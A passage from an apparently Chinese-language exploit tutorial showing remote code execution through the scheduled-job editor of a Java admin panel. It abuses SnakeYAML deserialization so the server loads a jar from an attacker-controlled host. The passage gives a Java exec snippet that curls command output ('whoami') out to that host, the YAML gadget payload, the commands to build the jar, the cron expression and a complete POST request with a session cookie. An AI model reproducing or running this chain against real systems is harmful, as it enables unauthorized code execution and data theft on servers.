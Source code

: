 - 除此之外，我们需要使用  
$()  
命令替换，用于命令回显，因此我们改写一下命令执行函数。  
  
- 改写方法如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGyic5Mdgk0GgcWiaRY3aGq34oZ3WFXkkhvPickjs1vubgziawY110OGLXTA/640?wx_fmt=png&from=appmsg "")  
```
String[] cmd = {
    "/bin/bash",
    "-c",
    "curl http://192.168.31.246:7000?echo=$(whoami)"
};
Runtime.getRuntime().exec(cmd);
```  
- 在工具根目录 编写yaml-payload.yml文件  
  
```
!!javax.script.ScriptEngineManager [  
  !!java.net.URLClassLoader [[  
    !!java.net.URL ["http://192.168.31.246:8000/yaml-payload.jar"]  
  ]]  
]  
```  
- 使用JAVA编译该文件，并且打包为jar，命令如下  
  
  
```
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
```  
  
- 然后在该位置使用python开启http服务，用于远程加载该jar文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGtuLCMToic1jjSyzuibfhXUnW6Zia6B7gSBw3UYFqxcq7mtCwUDfGebvtA/640?wx_fmt=png&from=appmsg "")  
- 添加定时任务加载jar包  
  
- 目标字符串  
  
```
org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“http://192.168.31.246:8000/yaml-payload.jar"]]]]‘)
```  
- cron表达式  
**0/10 **** ?**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzG18d59IiawK7EhcIibliaV1yCuIBlV6nib1LrmOia2h52HfB0Km10BW9aRfw/640?wx_fmt=png&from=appmsg "")  
- 定时任务请求包  
  
```
POST /monitor/job/edit HTTP/1.1
Host: 192.168.31.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 340
Origin: http://192.168.31.209
Connection: close
Referer: http://192.168.31.209/monitor/job/edit/112
Cookie: JSESSIONID=8fb6fb64-75c1-47ca-a145-0b7dd67ec5a2
jobId=112&updateBy=admin&jobName=RCE12&jobGroup=DEFAULT&invokeTarget=org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager+%5B!!java.net.URLClassLoader+%5B%5B!!java.net.URL+%5B%22http%3A%2F%2F192.168.31.246%3A8000%2Fyaml-payload.jar%22%5D%5D%5D%5D')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=2&concurrent=1&status=1&remark=
```  
- 创建任务后点击执行  